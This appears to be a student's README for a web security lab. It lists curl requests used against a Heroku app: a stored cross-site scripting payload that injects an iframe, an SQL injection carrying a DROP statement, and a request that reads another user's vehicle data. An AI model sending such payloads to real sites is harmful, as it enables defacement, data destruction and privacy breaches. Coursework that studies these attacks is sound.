 Project by Katherine Wadhwani

Correctness and Troubleshooting:
To the best of my understanding, all parts of this project have been implemented correctly. I did, however, find it difficult to understand what I modifications I vs others had made, as the website kept changing.

Collaboration:
I discussed this project with Thomas, Murt, and Dan. I was struggling and they kindly helped explain where I was going wrong. In particular, Thomas bettered my understanding of how to preform a SQL injection. All ideas, however, were my own.

Hours to Complete:
I took about 8 hours to complete the lab.

Note: While we were not particularly asked to show our curl requests for our Security and Privacy Assessment report, I wanted to include them. Putting them in the html document proved difficult, as some were interpreted as script. For these reasons, I have included them here.


<b>Cross-Site Scripting </b>
  - curl -d "username=<script>var b=document.getElementsByTagName('body')[0],i=document.createElement('iframe');i.src='https://www.google.com/embed/the-simpson-s-home-
    interactive';i.style.width='50%';i.style.height='50%';i.frameBorder='0';i.allow='gamepad *';b.insertBefore(i,b.firstChild);</script>&lat=34342.944&lng=943432.32345" 
    -X POST https://jordan-marsh.herokuapp.com/rides
  
<b>SQL Injection</b>  
  - curl -d "username= whatever; DROP vehicles;&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/update

<b>General Privacy</b>
  - curl -d "username=a&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/rides
  - https://jordan-marsh.herokuapp.com/vehicle.json?username=J1r5pEAO
  
  
